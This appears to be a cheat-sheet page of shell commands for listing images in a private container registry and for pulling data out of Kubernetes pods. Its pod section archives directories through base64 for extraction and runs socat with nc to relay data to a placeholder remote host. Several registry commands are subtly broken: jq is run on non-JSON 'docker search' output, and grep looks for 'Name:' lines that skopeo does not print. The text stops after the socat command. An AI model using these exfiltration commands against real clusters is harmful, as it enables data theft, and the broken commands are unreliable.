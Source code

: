 ### Images from a private registry


1. Using `docker` and `jq`:


```
docker run --rm -v /var/run/docker.sock:/var/run/docker.sock openai/containertool sh -c "docker search <PRIVATE_REGISTRY_URL> | jq '.[] | .name'"
```

This command uses the `containertool` container from OpenAI to interact with the Docker daemon. It searches for images in the specified private registry (`<PRIVATE_REGISTRY_URL>`) and uses `jq` to extract and display the names of the images from the search results.


2. Using `skopeo` and `grep`:

```
skopeo list-tags docker://<PRIVATE_REGISTRY_URL> | grep -oP '(?<=^Name: ).+'
```


This command uses `skopeo` to list the tags (versions) of the images in the specified private registry (`<PRIVATE_REGISTRY_URL>`). It then uses `grep` with a positive lookbehind pattern to extract and display only the names of the images.

3. Using `crane` and `sed`:

```
crane ls <PRIVATE_REGISTRY_URL> | sed 's/ .*//'
```


This command uses `crane`, a tool specifically designed for interacting with private container registries. It lists the images available in the specified private registry (`<PRIVATE_REGISTRY_URL>`), and then `sed` is used to remove any additional information, leaving only the image names.



### Collecting data from pod


1. Using `kubectl` and `tar`:

```
kubectl exec <POD_NAME> -c <CONTAINER_NAME> -- tar -cf - <SOURCE_DIRECTORY> | base64
```


This command uses `kubectl` to execute a command inside a specific pod (`<POD_NAME>`) and container (`<CONTAINER_NAME>`). It utilizes `tar` to create a tarball archive of a specified source directory (`<SOURCE_DIRECTORY>`). The resulting archive is piped to `base64` for convenient encoding and extraction later.


2. Using `socat` and `nc`:

```
kubectl exec <POD_NAME> -c <CONTAINER_NAME> -- socat TCP-LISTEN:<LOCAL_PORT>,fork EXEC:'nc -q 0 <REMOTE_IP> <REMOTE_PORT>'
```
